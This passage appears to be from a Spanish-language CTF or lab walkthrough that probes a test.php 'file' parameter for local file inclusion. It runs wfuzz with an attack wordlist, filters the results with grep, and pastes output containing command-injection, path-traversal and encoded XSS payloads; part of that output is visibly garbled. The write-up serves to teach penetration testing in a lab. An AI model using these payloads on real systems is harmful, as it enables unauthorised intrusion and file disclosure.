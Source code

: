 Nos descubre un `.php` interesante, si nos metemos dentro del el...

```
URL = http://<IP>/test.php
```

Veremos una web poco rellena, pero si le damos al boton llamado `Read last visitor data` vemos que la `URL` cambia a un parametro el cual esta leyendo a `last.html` quedando de la siguiente manera...

```
URL = http://<IP>/test.php?file=last.html
```

Y vemos que el contenido se visualiza en la cabezera de la pagina, por lo que intentaremos hacer un `LFI (Local File Inclusion)`...

Vamos hacer fuerza bruta...

### wfuzz

En mi caso cuando tiro el siguiente comando para ver si es vulnerable o no, me parecen muchas coincidencias, por lo que filtraremos por los numeros que se repiten mas, que seria en el parametro de `Lineas`, por lo que nos lo guardaremos en un archivo...

```shell
wfuzz -w All_attack.txt -u "http://<IP>/test.php?file=FUZZ" > wfuzz_output.txt
```

Y ahora con `grep` grepeamos los numeros que no sean `40` y `11` que son los que mas se repiten...

```shell
grep -vE '\b(11|40)\b' wfuzz_output.txt
```

Info:

```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.5.187/test.php?file=FUZZ
Total requests: 468

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000000045:   200        41 L     162 W      2040 Ch     "|id"                                                                                       
000000046:   200        41 L     163 W      2033 Ch     "|dir"                                                                                      
                                                        %5c..%          25%5c..%25%5c..%255cboot.ini"                                                       
                                                        5%5c..%25%5c..%25%5c..winnt/desktop.ini"                                                    
                                                        %5c..%25%5c..%25%5c..%00"                                                                   
                                                        %5c..%  25%5c..%25%5c..%00"                                                                  
                                                        5%5c..%25%5c..%25%5c..%00"                                                                  
                                                        ipt>"                                                                                       
                                                        #0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0
                                                        000083&#0000083&#0000039&#0000041>"                                                         
```